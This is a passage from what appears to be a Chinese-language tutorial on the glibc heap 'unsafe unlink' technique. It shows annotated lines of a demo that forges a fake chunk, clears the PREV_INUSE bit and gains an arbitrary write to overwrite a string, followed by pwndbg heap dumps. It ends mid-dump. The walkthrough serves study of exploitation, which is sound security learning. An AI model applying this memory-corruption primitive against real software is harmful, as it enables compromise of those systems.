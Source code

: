 ```
► 21   chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
  22   uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
► 27   fprintf(stderr, "We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &amp;chunk0_ptr so that P-&gt;fd-&gt;bk = P.n");
  28   chunk0_ptr[2] = (uint64_t) &amp;chunk0_ptr-(sizeof(uint64_t)*3);
► 31   chunk0_ptr[3] = (uint64_t) &amp;chunk0_ptr-(sizeof(uint64_t)*2);
► 36   uint64_t *chunk1_hdr = chunk1_ptr - header_size;
► 39   chunk1_hdr[0] = malloc_size;
► 42   chunk1_hdr[1] &amp;= ~1;

  50   strcpy(victim_string,"Hello!~");
► 51   chunk0_ptr[3] = (uint64_t) victim_string;

  55   chunk0_ptr[0] = 0x4141414142424242LL;
► 56   fprintf(stderr, "New Value: %sn",victim_string);
```

首先是第一个断点的地方,也就是malloc chunk0的地方

```
pwndbg&gt; heap
0x603000 PREV_INUSE {
  prev_size = 0,
  size = 145,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x603090 PREV_INUSE {
  prev_size = 0,
  size = 135025,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

可以看到我们已经有了一个堆块,那么下面我们单步走完下一个,即把chunk1也分配了,此时的堆块

```
pwndbg&gt; heap
0x603000 PREV_INUSE {
  prev_size = 0,
  size = 0x91,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x603090 PREV_INUSE {
  prev_size = 0,
  size = 0x91,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x603120 PREV_INUSE {
  prev_size = 0,
  size = 134881,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
```